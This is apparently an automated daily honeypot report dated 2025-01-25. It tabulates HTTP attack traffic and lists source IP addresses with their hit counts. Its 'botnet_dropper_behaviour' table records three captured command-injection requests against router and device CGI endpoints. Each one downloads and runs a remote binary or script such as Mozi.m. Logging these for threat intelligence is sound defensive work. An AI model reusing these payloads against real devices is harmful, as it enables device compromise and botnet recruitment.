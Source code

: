 ```yaml
---
title: "Report: 2025-01-25 "
date: 2025-01-25
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-01-25
interaction report on http service of various Hhoneypot around the world.
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## botnet_dropper_behaviour
|    | remote_addr   | request                                                                                                                                                                                    |
|---:|:--------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 46.19.143.26  | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F185.225.17.58%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1 |
|  1 | 45.230.66.59  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://45.230.66.59:11404/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                |
|  2 | 190.77.194.80 | GET /login.cgi?cli=aa%20aa%27;wget%20http://154.213.189.145/sh%20-O%20-%3E%20/tmp/kh;sh%20/tmp/kh%27$ HTTP/1.1                                                                             |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                    45 | 192.241.128.80  |
|   1 |                    45 | 92.55.190.215   |
|   2 |                    45 | 35.89.137.11    |
|   3 |                    45 | 37.60.231.153   |
|   4 |                    45 | 102.211.152.45  |
|   5 |                    45 | 109.199.110.25  |
|   6 |                    40 | 78.153.140.177  |
|   7 |                    34 | 38.242.231.74   |
|   8 |                    34 | 5.181.190.248   |
|   9 |                    32 | 146.19.24.168   |
|  10 |                    27 | 92.255.57.58    |
|  11 |                    23 | 139.59.113.63   |
|  12 |                    21 | 179.43.191.146  |
|  13 |                    21 | 80.82.77.202    |
|  14 |                    20 | 185.196.9.221   |
|  15 |                    18 | 80.66.83.49     |
|  16 |                    18 | 46.19.138.234   |
|  17 |                    16 | 18.216.255.128  |
|  18 |                    13 | 197.156.91.60   |